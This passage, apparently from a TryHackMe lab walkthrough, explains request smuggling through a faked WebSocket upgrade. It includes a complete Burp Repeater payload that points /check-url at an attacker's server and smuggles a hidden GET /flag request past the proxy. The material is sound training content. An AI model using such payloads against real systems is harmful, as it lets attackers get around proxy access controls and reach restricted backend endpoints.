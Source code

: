 ### Faking a WebSocket

We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to /check-url against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.235.194:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8002

```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

![Smuggling a request through a fake websocket connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4c210998e9e3ff3cd2bbad3ed5d92fe7.png)  

Remember thatÂ `/check-url`Â is not a WebSocket endpoint. We are just manipulating both the request and response that theÂ proxyÂ gets to make it believe this is a real WebSocket. This means that theÂ proxyÂ will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request asÂ HTTPÂ since there's no WebSocket in reality.



